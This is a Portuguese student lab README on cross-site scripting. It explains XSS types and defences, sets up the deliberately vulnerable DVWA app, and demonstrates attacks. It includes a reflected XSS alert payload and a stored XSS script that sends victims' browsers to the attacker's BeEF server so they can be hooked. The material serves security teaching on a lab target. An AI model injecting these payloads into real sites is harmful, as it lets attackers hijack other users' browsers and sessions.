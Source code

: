 # PRÁTICA XSS

## Dupla:
Anderson Felipe Costa

Antonio Thiago Costa

## O que é XSS?

O ataque de Cross-site scripting (XSS) consiste em uma vulnerabilidade causada pela falha nas validações dos parâmetros de entrada do usuário e resposta do servidor na aplicação web. Este ataque permite que um código HTML seja inserido no navegador do usuário alvo.

Tecnicamente, este problema ocorre quando um parâmetro de entrada do usuário é apresentado integralmente pelo navegador, como no caso de um código javascript que passa a ser interpretado como parte da aplicação legítima e com acesso a todas as entidades do documento (DOM). Na prática, o responsável pelo ataque executa instruções no navegador da vítima usando um aplicativo web vulnerável, modificando estruturas do documento HTML.
Algumas vezes o atacante não tem como alvo diretamente sua vítima,  pelo contrario ele explora uma vulnerabilidade em um site que o alvo pode visitar com o objetivo de entregar o JavaScript malicioso para ele. No navegador do alvo, o JavaScript malicioso parece ser como parte integrante do site, o que torna o ataque efetivo e quase imperceptível para a vítima.

Podemos considerar um JavaScript como sendo malicioso quando ele consegue acessar informações confidenciais dos usuários, como os cookies ou quando são enviadas requisições HTTP contendo scripts maliciosos que podem usar o XMLHttpRequest. Claro que estes são apenas alguns exemplos, mesmo porque os ataques de XSS permitem uma série de combinações no ataque.

Um bom exemplo é uma aplicação vuneravel é o fórum, em que o usuário tenha permissão para incluir mensagens de sua própria autoria para que os outros usuários possam ler. Se este aplicativo não filtrar corretamente os códigos HTML, um usuário mal intencionado pode injetar instruções para leitura de informações específicas do usuário legítimo, tais como códigos de sessão, e até mesmo executar tarefas específicas como enviar mensagens de maneira arbitrária para o fórum.

## Tipos de XSS

Existem três tipos mais conhecidos são eles:

* XSS Stored que consiste em um código malicioso que pode ser permanentemente armazenado no servidor web/aplicação, como em um banco de dados, fórum, campo de comentários etc. O usuário torna-se vítima ao acessar a área afetada pelo armazenamento do código mal intencionado.Esse tipo de XSS são geralmente mais significativos do que outros, uma vez que um usuário mal intencionado pode potencialmente atingir um grande número usuários apenas com uma ação específica e facilitar o processo de engenharia social. Em alguns casos, o navegador afetado pode até mesmo se comportar como se estivesse infectado por um worm, replicando cópias para cada usuário que execute o código mal intencionado.

* XSS Reflected script é ativado por meio de um link, que envia uma solicitação para um site com uma vulnerabilidade que permite a execução de scripts mal-intencionados. A vulnerabilidade geralmente é resultado de solicitações recebidas sem criptografia, o que permite a manipulação das funções de um aplicativo da Web e a ativação de scripts mal-intencionados. Para distribuir o link malicioso, um criminoso normalmente o incorporam em um site de e-mail ou de terceiros (por exemplo, em uma seção de comentários ou em mídias sociais). O link é incorporado dentro de um texto âncora que faz com que o usuário clique nele, o que inicia a solicitação XSS para um site explorado, refletindo o ataque de volta ao usuário. Ao contrário de um ataque armazenado, em que o autor deve localizar um site que permita a injeção permanente de scripts mal-intencionados, os ataques refletidos exigem apenas que o script mal-intencionado seja incorporado a um link. Sabendo disto, para que o ataque seja bem-sucedido, o usuário precisa clicar no link infectado. Ataques refletidos são mais comuns. Os ataques refletidos não têm o mesmo alcance que os ataques XSS Stored. XSS reflected podem ser evitados por usuários vigilantes. Como pode se ver esse tipo de ataque é executado por meio de engenharia social, convencendo o usuário alvo que a requisição a ser realizada é legítima. As consequencias variam de acordo com a natureza da vulnerabilidade, podendo variar do sequestro de sessões válidas no sistema, roubo de credenciais ou realização de atividades ilicitas em nome do usuário afetado.

* Dom Based XSS: É o tipo mais difícil de ser encontrado entre os três, porque depende de uma das vulnerabilidades em algum dos componentes da página, sendo que o script faz alterações no HTML atual da página através da manipulação do DOM (Document Object Model). Recentemente, o tema TwentyFifteen, que é padrão nas instalações do WordPress, foi alvo desse tipo de vulnerabilidade e deixou milhões de sites vulneráveis.

## Problemas para impedir ataques XSS

Uma das principais dificuldades na prevenção de vulnerabilidades XSS é a codificação adequada de caracteres. Em alguns casos, o servidor da Web ou o aplicativo da Web podem não filtrar algumas codificações de caracteres, portanto, por exemplo, o aplicativo da Web pode filtrar "<script>", mas pode não filtrar% 3cscript% 3e que simplesmente inclui outra codificação de tags.

## Métodos de prevenção

* Encoding e Validation: A função do Encoding é filtrar os dados que o usuário irá inserir para que o navegador o interprete apenas como dado e não como código. Um exemplo clássico é a conversão em HTML, como "<" e ">" em "&lt;" e "&gt;". O objetivo do Validation é filtrar todas as entradas do usuário que podem ser maliciosas para a sua aplicação, e essa será a sua primeira linha de defesa contra os ataques XSS. Essa validação funciona melhor através da prevenção sobre os dados que possuem limites de valores. Um exemplo é uma variável “Int” (inteiro), que não precisa conter códigos HTML.

* Use bibliotecas Anti-XSS: As bibliotecas Anti-XSS fornecem um conjunto de funções que irá facilitar o filtro dos dados para bloquear os 
ataques XSS. algumas delas:

1. Microsoft AntiXSS Library .NET 
2. HTML Purifier  PHP
3. Java Encoder Java

* Utilize o Content Security Policy (CSP): O Content Security Policy é um cabeçalho HTTP que fornece uma whitelist de recursos confiáveis no qual o navegador poderá confiar. Um recurso pode ser um script, CSS, imagem ou outro tipo de arquivo que poderá ser indicado. Isso significa que mesmo se um atacante conseguir injetar um código XSS no seu site, o CSP poderá impedir a sua execução. O único problema atual do CSP é que a interpretação é diferente em alguns navegadores e por isso você terá que fazer um tratamento de qual Header enviar. Usando a flag HttpOnly: O HttpOnly é uma flag adicional que pode ser incluída junto com a opção Set-Cookie. Quando o HttpOnly é usado, o JavaScript não será capaz de ler esse cookie protegido se acontecer a exploração do XSS do lado do cliente. Caso o navegador suporte essa opção, mesmo que a falha de XSS exista e o atacante consiga fazer uma vítima acessar o link que pode explorar a falha, o navegador não irá fornecer os dados do cookie para o atacante. X-XSS-Protection no Header: Este cabeçalho pode ser utilizado para configurar uma proteção no navegador contra ataques XSS Reflected. Atualmente, apenas os navegadores Internet Explorer, Google Chrome e Safari (WebKit) o suportam.

## INSTALAÇÃO DO DVWA E APRESENTAÇÃO DO BEFF

### Servidor APACHE2 - Ubuntu Server
### Atacante - Kali Linux

1. Instalação normal do Ubuntu server, até chegar a Seleção de pacotes, nela selecione LAMP server e OpenSSh server.
![imagem01](imagens/01.png)
####Obs: Caso não for utilizar o Ubuntu Server basta executar

```
sudo apt install lamp-server^ 

sudo apt install openssh-server
```

2. Após o processo de instalação do S.O e o LAMP, exeute o comando abaixo, para remover os pacotes php:

```
sudo apt-get purge `dpkg -l | grep php | awk '{print $2}' | tr "\n" " "`
```
![imagem03](imagens/03.png)

3. Em Seguida, inserir um repositorio de onde sera baixado o php necessario para DVWA e um update:

```
sudo add-apt-repository ppa:ondrej/php
sudo apt update
```
![imagem03](imagens/04.png)

4. Neste passo instale o php5.6 e os modulos necessarios além do unzip com:
```
sudo apt install php5.6 php5.6-gd php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml unzip
```
![imagem07](imagens/07.png)

5. Inicie o apache:
```
sudo systemctl start apache2
```

6. Ative o módulo do php5.6 no apache:
```
sudo a2enmod php5.6
```
![imagem09](imagens/09.png)

7. Entre na pasta /var/www onde será baixado o pacote DVWA e execute o wget e o unzip:
```
cd /var/www
sudo wget https://github.com/ethicalhack3r/DVWA/archive/master.zip
sudo unzip master.zip -d html
```

8. Agora entre na pasta html e mude o nome da pasta descompactada para facilitar o acesso:
```
cd html
sudo mv html/DVWA-master html/dvwa
```

9. Agora altere a linha com allow_url_include de off para on:
```
sudo vim /etc/php/5.6/apache2/php.ini
```
![imagem17](imagens/17.png)

10. Agora copie o modelo do arquivo config do DVWA executando:
```
sudo cp dvwa/config/config.inc.php.dist dvwa/config/config.inc.php
```

11. Altere o arquivo criado:
```
sudo vim dvwa/config/config.inc.php
```
![imagem22](imagens/22.png)
Obs: Neste arquivo deixe o usuario como root e em db_password insira a senha configurada na instalação, caso não tenha senha, deixe somente '';.

12. Altere também o arquivo xss_s, para poder inserir mais caracteres no campo de comentarios do XSS Stored, necessario para poder escrever o script completo.
```
sudo vim html/dvwa/vulnerabilities/xss_s/index.php
```

Busque por mtxMessage
![imagem23](imagens/22.1.png)

Altere o proximo numero após maxlenght
![imagem24](imagens/22.2.png)

![imagem25](imagens/22.3.png)

13. Reinicie o apache
```
sudo systemctl restart apache2
```

14. Após toda a configuração, vá ao navegador e insira a URL IP-do-servidor/dvwa. Neste ponto a pagina é aberta, após checar todos os pontos necessarios clique em Create / Reset Database:

![imagem26](imagens/23.png)

Tela de login do DVWA - Usuario: admin e senha:password
![imagem27](imagens/24.png)

Após inserir usuario e senha temos a seguinte tela:

![imagem28](imagens/25.png)
Nela temos todas as opções de teste de ataque, nesta pagina clique em DVWA Security para alterar a dificuldade do ataque. Vai estar em impossible, altere para Low e clique em Submit.

## Ataques

### XSS Reflected
Clique em XSS(Reflected) e no campo de texto insira.
```
<script type="text/javascript"> alert('texto'); </script>
```
![imagem29](imagens/26.png)
Devera aparecer esta tela de pop-up com o texto inserido.

### XSS Stored

Para este ataque utilizaremos o Beef xss framework, uma ferramenta de pentest do Kali Linux
![imagem30](imagens/27.png)

1. Abra o beef

Está é a tela inicial do beef, o usuario padrão é beef e a senha igual
![imagem31](imagens/28.png)

2. No DVWA, insira no campo mensagem este código:
```
<script> document.location="http://Seu-IP/demos/butcher/index.html" </script>
```
Este link direciona para uma pagina de teste de ataque XSS pronta. No campo nome coloque qualquer coisa

![imagem32](imagens/29.png)

3. Voltando ao beff, no lado esquerdo da página surge o IP do browser infectado pela pagina.
![imagem33](imagens/30.png)

4. Clicando no IP da vitima recebemos varias opções, podendo o atacante com este acesso fazer outros ataques ao usuario infectado atraves do navegador.

![imagem34](imagens/31.png)

5. Agora é so testar as opções e se divertir!


## Prática Proposta

Instalar o DVWA e realizar um XSS Reflected, fazendo surgir um pop-up, apresentando o nome do aluno, printar esta tela e postar no Git Hub.


## Referências

https://imasters.com.br/devsecops/5-formas-para-prevenir-os-ataques-xss

https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

https://www.incapsula.com/web-application-security/reflected-xss-attacks.html

http://www.redesegura.com.br/2012/01/saiba-mais-sobre-o-cross-site-scripting-xss/

https://www.youtube.com/watch?v=OVLz6RgOjIY

https://medium.com/@GustavoOliveira/xss-cross-site-scripting-ae5fe11b0f2e

https://portswigger.net/kb/issues/00200300_cross-site-scripting-reflected

https://github.com/ethicalhack3r/DVWA
